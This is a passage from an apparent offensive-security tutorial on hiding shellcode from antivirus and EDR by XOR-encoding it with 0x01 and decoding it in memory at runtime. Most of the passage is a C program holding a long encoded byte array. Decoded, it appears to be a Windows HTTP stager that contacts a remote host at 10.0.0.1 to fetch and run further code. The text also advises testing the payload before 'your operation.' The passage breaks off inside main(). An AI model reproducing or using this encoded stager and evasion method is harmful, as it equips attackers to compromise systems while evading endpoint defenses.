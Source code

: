 
So by XORing each opcode with 0x01, we will retrieve the original shellcode
but this time without getting caught via static analysis (signature-based)
detection by AVs/EDRs because it will be written directly to the memory in
runtime.

> Even with this type of encoding your payload may get flagged, so make sure
> to use stronger encoding and test it before using in your operation.

The following code will achieve that for us:

    
    
    #include &lt;windows.h&gt;
    
    
    int main(int argc, char *argv[]){
    
    
    
       unsigned char data[] = &quot;\xfd\x49\x82\xe5\xf1\xe9\xc9\x1\x1\x1\x40\x50\x40\x51\x53\x50\x57\x49\x30\xd3\x64\x49\x8a\x53\x61\x49\x8a\x53\x19\x49\x8a\x53\x21\x49\x8a\x73\x51\x49\xe\xb6\x4b\x4b\x4c\x30\xc8\x49\x30\xc1\xad\x3d\x60\x7d\x3\x2d\x21\x40\xc0\xc8\xc\x40\x0\xc0\xe3\xec\x53\x40\x50\x49\x8a\x53\x21\x8a\x43\x3d\x49\x0\xd1\x67\x80\x79\x19\xa\x3\x74\x73\x8a\x81\x89\x1\x1\x1\x49\x84\xc1\x75\x66\x49\x0\xd1\x51\x8a\x49\x19\x45\x8a\x41\x21\x48\x0\xd1\xe2\x57\x49\xfe\xc8\x40\x8a\x35\x89\x49\x0\xd7\x4c\x30\xc8\x49\x30\xc1\xad\x40\xc0\xc8\xc\x40\x0\xc0\x39\xe1\x74\xf0\x4d\x2\x4d\x25\x9\x44\x38\xd0\x74\xd9\x59\x45\x8a\x41\x25\x48\x0\xd1\x67\x40\x8a\xd\x49\x45\x8a\x41\x1d\x48\x0\xd1\x40\x8a\x5\x89\x49\x0\xd1\x40\x59\x40\x59\x5f\x58\x5b\x40\x59\x40\x58\x40\x5b\x49\x82\xed\x21\x40\x53\xfe\xe1\x59\x40\x58\x5b\x49\x8a\x13\xe8\x4e\xfe\xfe\xfe\x5c\x6b\x1\x48\xbf\x76\x68\x6f\x68\x6f\x64\x75\x1\x40\x57\x48\x88\xe7\x4d\x88\xf0\x40\xbb\x4d\x76\x27\x6\xfe\xd4\x49\x30\xc8\x49\x30\xd3\x4c\x30\xc1\x4c\x30\xc8\x40\x51\x40\x51\x40\xbb\x3b\x57\x78\xa6\xfe\xd4\xea\x72\x5b\x49\x88\xc0\x40\xb9\x57\x1e\x1\x1\x4c\x30\xc8\x40\x50\x40\x50\x6b\x2\x40\x50\x40\xbb\x56\x88\x9e\xc7\xfe\xd4\xea\x58\x5a\x49\x88\xc0\x49\x30\xd3\x48\x88\xd9\x4c\x30\xc8\x53\x69\x1\x3\x41\x85\x53\x53\x40\xbb\xea\x54\x2f\x3a\xfe\xd4\x49\x88\xc7\x49\x82\xc2\x51\x6b\xb\x5e\x49\x88\xf0\x49\x88\xdb\x48\xc6\xc1\xfe\xfe\xfe\xfe\x4c\x30\xc8\x53\x53\x40\xbb\x2c\x7\x19\x7a\xfe\xd4\x84\xc1\xe\x84\x9c\x0\x1\x1\x49\xfe\xce\xe\x85\x8d\x0\x1\x1\xea\xd2\xe8\xe5\x0\x1\x1\xe9\xa3\xfe\xfe\xfe\x2e\x34\x6f\x6a\x4e\x1\x2\x9b\xf5\xba\xe1\xdc\x3f\x6d\x86\xa4\x4\x4a\x83\x50\x2e\xd4\x69\x66\x14\xd7\xfc\x11\xf2\xa4\x91\x61\xeb\xbb\xff\x1e\x27\x2c\x5\xf2\xed\xca\xd5\x72\x95\x56\x99\x5f\xdf\xed\xb9\x3f\xd8\x4f\x33\xcd\x39\xe2\x95\x7\x1c\x72\x2c\xb2\xd5\x63\x27\xcb\x5b\xaf\x53\xee\xf5\xc1\x80\x76\x96\xcf\xd4\x1\x54\x72\x64\x73\x2c\x40\x66\x64\x6f\x75\x3b\x21\x4c\x6e\x7b\x68\x6d\x6d\x60\x2e\x35\x2f\x31\x21\x29\x62\x6e\x6c\x71\x60\x75\x68\x63\x6d\x64\x3a\x21\x4c\x52\x48\x44\x21\x39\x2f\x31\x3a\x21\x56\x68\x6f\x65\x6e\x76\x72\x21\x4f\x55\x21\x34\x2f\x30\x3a\x21\x55\x73\x68\x65\x64\x6f\x75\x2e\x35\x2f\x31\x3a\x21\x46\x55\x43\x36\x2f\x35\x3a\x21\x48\x6f\x67\x6e\x51\x60\x75\x69\x2f\x33\x28\xc\xb\x1\x60\xe3\x48\x6d\xb4\x30\x93\x21\x18\xc8\xab\x68\x2a\xbd\xc0\x8a\x29\xf8\x81\x6d\x93\xad\xbb\xeb\x7\x33\x4\xc3\x39\x1a\xe\x3f\x84\x38\xc2\x8b\x13\x20\xe6\x50\x81\x81\x31\x3\xe6\xcd\x8e\x35\x39\xd0\xe3\x49\xf1\x29\x20\xe8\xd6\xa7\x46\x59\xf\x49\x8d\x1c\x17\xac\x7c\xac\xbc\xa5\x41\x59\x4a\x5e\x3c\xa8\xd1\x54\x18\xde\x42\xf0\x68\xbb\xd\x80\x6e\x90\x73\x95\xc7\x64\xb5\x8c\x5a\x5\x59\x69\x73\x92\xc2\xbd\x47\x10\xa\xf9\x51\x27\x53\x14\x48\xda\x37\xc\x74\x5c\x80\x5c\x46\x1a\xe\x5f\x24\x51\x35\x22\xc0\x68\xfc\x23\x74\x5c\xeb\xa5\x2f\x41\x99\x13\x73\x8f\xd5\xdf\xee\xf3\x43\xdc\x9\x6a\xa2\x75\x12\x6d\xa8\x83\xfd\x24\xed\xe7\x23\xeb\x9a\x4a\x59\xa9\x84\x66\xa0\x79\x1f\xab\x6\x30\xd6\xce\x4b\x75\xf0\x31\x62\x3f\xf\x5d\x16\x52\x2e\x68\x66\x93\xf9\x29\xff\xd7\x6e\xcf\x7\xc4\xdc\xb3\xc\x70\xf5\xdb\x19\x5f\x27\x1\x40\xbf\xf1\xb4\xa3\x57\xfe\xd4\x49\x30\xc8\xbb\x1\x1\x41\x1\x40\xb9\x1\x11\x1\x1\x40\xb8\x41\x1\x1\x1\x40\xbb\x59\xa5\x52\xe4\xfe\xd4\x49\x92\x52\x52\x49\x88\xe6\x49\x88\xf0\x49\x88\xdb\x40\xb9\x1\x21\x1\x1\x48\x88\xf8\x40\xbb\x13\x97\x88\xe3\xfe\xd4\x49\x82\xc5\x21\x84\xc1\x75\xb7\x67\x8a\x6\x49\x0\xc2\x84\xc1\x74\xd6\x59\x59\x59\x49\x4\x1\x1\x1\x1\x51\xc2\xe9\x9e\xfc\xfe\xfe\x30\x31\x2f\x31\x2f\x31\x2f\x30\x1\x59\x57\x3c\xd3&quot;;
       